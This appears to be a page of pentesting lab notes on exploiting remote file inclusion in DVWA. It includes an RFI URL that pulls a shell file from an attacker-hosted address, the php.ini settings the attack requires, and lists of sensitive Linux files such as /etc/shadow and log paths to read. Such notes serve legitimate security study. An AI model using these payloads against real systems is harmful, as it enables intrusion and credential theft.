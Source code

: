 We can exploit rfi with adding our own shell at the end of vulnerable endpoint , something like this

`http://10.11.1.250/dvwa/vulnerabilities/fi/?page=http://172.16.1.4/exploit.txt`

### Required Settings to work RFI
![[image 1.avif]]

The first warning indicates that URL file-access is disabled in the server configuration. Without URL file access enabled we’re unable to include files from remote locations, such as our attack box.**To successfully include remote files in PHP there are a few parameters in the "php.ini" file that must be enabled:**

**allow_url_fopen = On**

**allow_url_include = On**

This settings can be found on **phpinfo.php** page so we can check if following configuration is allowed or not to successfully attack rfi

`http://10.11.1.250/dvwa/phpinfo.php`

# Interesting Files Linux

```
/etc/passwd

/etc/shadow

/etc/issue

/etc/group

/etc/hostname
```

## Log Files

```
 Apache access log: /var/log/apache/access.log
 
 Apache access log: /var/log/apache2/access.log
 
 Apache access log: /var/log/httpd/access_log
 
 Apache error log: /var/log/apache/error.log
 
 Apache error log: /var/log/apache2/error.log
 
 Apache error log: /var/log/httpd/error_log
 
 General messages and system related entries: /var/log/messages
 
 Cron logs: /var/log/cron.log
 
 Authentication logs: /var/log/secure or /var/log/auth.log
```
